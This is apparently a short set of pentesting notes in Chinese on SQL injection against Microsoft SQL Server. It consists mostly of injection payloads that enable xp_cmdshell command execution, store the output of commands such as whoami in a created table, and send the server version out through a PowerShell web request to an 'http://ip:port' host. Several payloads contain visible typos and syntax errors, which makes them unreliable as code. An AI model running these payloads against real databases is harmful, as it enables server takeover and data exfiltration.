 ```mssql
exec xp_cmdshell 'ping -n 10 127.0.0.1'-- 

使用sql注入获取命令执行结果
创建一个表，再把执行的结果写入到表中
?id=1';create table data(result,nvarchar(8000)); --  #data创建临时表0000000000
?id=1';declare @adqa varchar(8000); set @command=0x77686f616d69;insert into data (result) values(exec master..xp_cmdshell @command)--

isnull(result,'') 清空result中的空数据

declare @a varchar(9000);
set @a = (select top 1 substring(@@version,1,35));
exec('master..xp_cmdshell "powersehll oex (new-object net.webclient).downloadstring('http://ip:port/?data=' %2b @a %2b''')"') -- 
```

![image-20210716101109174](websafe/image-20210716101109174.png)

![image-20210716094031473](websafe/image-20210716094031473.png)
